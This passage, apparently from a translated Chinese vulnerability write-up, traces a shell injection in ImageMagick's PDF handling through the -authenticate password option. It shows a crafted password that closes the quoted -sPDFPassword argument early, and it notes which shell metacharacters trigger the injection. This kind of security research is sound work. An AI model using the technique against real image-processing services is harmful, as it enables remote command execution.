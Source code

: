 接下来，让我们回到shell注入上面来。



## 切入点：加密的PDF

在了解了curl的用法后，我又考察了command在delegates.xml中的相关定义： 

```
&lt;delegate decode="https:decode"

command="&amp;quot;@WWWDecodeDelegate@&amp;quot; -s -k -L -o &amp;quot;%u.dat&amp;quot; &amp;quot;https:%M&amp;quot;"/&gt;
```

其中，%M被替换为用户控制的URL。因此，我检查了%M的所有出现位置，以及它们是否被正确处理。此外，我还查看了定义在property.c中的所有替换值，最终没有发现任何注入漏洞。

之后，我在pdf.编码器中偶然发现了下面的内容： 

```
(void) FormatLocaleString(passphrase,MagickPathExtent,

"\"-sPDFPassword=%s\" ",option);
```

这似乎设置了一个密码，因此，这很可能是由用户完全控制的，所以，我查了一下这个参数设置是如何设置的，以及是否可以利用。根据变更日志，ImageMagick在2017年增加了一个“-authenticate”命令行参数，允许用户为加密的PDF设置密码。

因此，我通过以下命令对其进行了测试，这里将转储创建的命令： 

```
convert -authenticate "password" test.pdf out.png
```

创建的Shell命令： 

```
'gs' -sstdout=%stderr -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 '-sDEVICE=pngalpha' -dTextAlphaBits=4

-dGraphicsAlphaBits=4 '-r72x72' "-sPDFPassword=password" '-sOutputFile=/tmp/magick-YPvcqDeC7K-Q8xn8VZPwHcp3G1WVkrj7%d' '-f/tmp/magick-sxCQc4-ip-mnuSAhGww-6IFnRQ46CBpD' '-f/tmp/magick-pU-nIhxrRulCPVrGEJ868knAmRL8Jfw9'
```

由于我们已经确认密码包含在创建的gs命令中（该命令用于解析指定的PDF），因此，现在是时候检查双引号的处理是否正确了： 

```
convert -authenticate 'test" FFFFFF' test.pdf out.png

'gs' -sstdout=%stderr -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 '-sDEVICE=pngalpha' -dTextAlphaBits=4

-dGraphicsAlphaBits=4 '-r72x72' "-sPDFPassword=test" FFFFFF" '-sOutputFile=/tmp/magick-YPvcqDeC7K-Q8xn8VZPwHcp3G1WVkrj7%d' '-f/tmp/magick-sxCQc4-ip-mnuSAhGww-6IFnRQ46CBpD' '-f/tmp/magick-pU-nIhxrRulCPVrGEJ868knAmRL8Jfw9
```

令人惊讶的是，我们竟然能够提前关闭-sPDFPassword参数，这使我们能够提供额外的shell命令。其中，指定的“password”必须包含字符”&amp;;&lt;&gt;|”中的一个，这样shell注入漏洞才会被真正触发。之所以如此，是因为只有存在上述字符的情况下，ImageMagick才会使用系统调用（即系统shell）： 
